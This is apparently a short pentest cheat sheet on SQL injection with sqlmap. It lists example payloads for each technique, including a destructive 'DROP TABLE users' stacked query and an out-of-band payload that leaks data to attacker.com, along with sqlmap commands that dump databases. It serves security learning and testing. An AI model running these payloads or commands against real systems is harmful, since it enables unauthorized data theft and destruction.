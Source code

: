 # SQL Injection Playbook

## SQL Map

*SQL injection techniques with SQL Map*

The technique characters BEUSTQ refers to the following:

**B:** Boolean-based blind (Example: ```1=1```)

**E:** Error-based (Example: ```AND GTID_SUBSET(@@version,0)```)

**U:** Union query-based (Example: ```UNION ALL SELECT 1,@@version,3```) <-- Fastest SQLi

**S:** Stacked queries (Example: ```; DROP TABLE users```)

**T:** Time-based blind (Example: ```AND 1=IF(2>1,SLEEP(5),0)```)

**Q:** Inline queries (Example: ```SELECT (SELECT @@version) from```)

**Out of band injection** (Example: ```LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))```)
This is generally considered one of the most advanced forms of attacks and only is used when the others fail

### **SQL Map Notes:**
  * The switch '--batch' is used for skipping any required user-input, by automatically choosing using the default option.

  * When providing data for testing to SQLMap, there has to be either a parameter value that could be assessed for SQLi vulnerability or specialized options/switches for automatic parameter finding (e.g. --crawl, --forms or -g).

### *SQLMap Get Request*

```
sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
```

### *SQLMap JSON Request*
Go into burpsuite and you get an initial request, forward that, THEN capture that request. Right click, save to document and name it what you want. Then you can just use:
```
sqlmap -r fileyoumade.txt --batch --dump
```